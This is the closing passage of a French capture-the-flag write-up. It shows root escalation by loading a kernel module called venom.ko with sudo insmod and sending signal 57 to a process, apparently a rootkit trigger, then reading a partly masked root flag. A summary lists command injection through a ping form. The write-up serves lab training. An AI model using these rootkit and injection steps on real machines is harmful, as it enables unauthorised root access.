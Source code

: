 ```bash
sudo usr/sbin/insmod /mnt/.../secret/venom.ko
lsmod | grep -i vemom

kill -57 271

id
```

### 📄 Flag Root

```bash
cat /root/root.txt
```

**Contenu** :

```
857c4a4fbac638************ (envoie un message pour la suite)

```



---

## 📚 Conclusion

- **Reconnaissance** : Identification des services et des répertoires intéressants.
- **Exploitation** : Injection de commandes via le formulaire de ping.
- **Élévation de Privilèges** : Utilisation d'un script avec des permissions sudo pour obtenir un shell root.
- **Récupération des Flags** : Accès aux flags utilisateur et root.

**Machine compromise avec succès !** 🎉

---

*Note : Ce write-up est à des fins éducatives uniquement. Toute utilisation malveillante des informations fournies est strictement interdite.*

---

